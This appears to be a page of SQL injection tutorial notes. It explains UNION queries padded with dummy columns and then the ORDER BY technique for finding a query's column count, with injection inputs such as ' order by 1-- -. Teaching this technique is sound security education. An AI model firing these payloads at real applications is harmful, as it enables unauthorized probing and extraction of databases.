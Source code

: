 **Step 3: Handle Column Mismatch**
```sql
-- Problem: employees (6 columns) vs departments (2 columns)
-- Solution: Add 4 dummy columns to departments

-- Method 1: Count total records with subquery
SELECT COUNT(*) FROM (
    SELECT * FROM employees 
    UNION 
    SELECT dept_no, dept_name, 3, 4, 5, 6 FROM departments
) AS combined_results;

-- Method 2: View all data directly
SELECT * FROM employees 
UNION 
SELECT dept_no, dept_name, 3, 4, 5, 6 FROM departments;
```

**Step 4: Result Analysis**
```sql
-- Expected result: 663 total records
-- employees table: ~654 records
-- departments table: 9 records  
-- Combined: 654 + 9 = 663 records

+--------+--------------------+--------------+---------------+--------+------------+
| emp_no | birth_date         | first_name   | last_name     | gender | hire_date  |
+--------+--------------------+--------------+---------------+--------+------------+
| 10001  | 1953-09-02         | Georgi       | Facello       | M      | 1986-06-26 |
| 10002  | 1952-12-03         | Vivian       | Simmel        | F      | 1989-08-03 |
| d001   | Customer Service   | 3            | 4             | 5      | 6          |
| d002   | Development        | 3            | 4             | 5      | 6          |
+--------+--------------------+--------------+---------------+--------+------------+
```

**Key Learning Points:**
- **DESCRIBE** reveals table structure before UNION
- **Dummy columns** (3,4,5,6) fill missing positions
- **Subquery with COUNT()** gets total without displaying all data
- **Data type compatibility** - numbers work as universal placeholders

### Column Detection

#### Method 1: ORDER BY Technique

**How ORDER BY Works for Column Detection:**
ORDER BY sorts results by specified column number. If column doesn't exist → error.

**Step-by-Step Process:**
```sql
-- Step 1: Test column 1 (always exists)
' order by 1-- -
-- ✅ Result: Normal output (sorted by column 1)

-- Step 2: Test column 2  
' order by 2-- -
-- ✅ Result: Normal output (sorted by column 2, different order)

-- Step 3: Test column 3
' order by 3-- -
-- ✅ Result: Normal output (sorted by column 3)

-- Step 4: Test column 4
' order by 4-- -
-- ✅ Result: Normal output (sorted by column 4)

```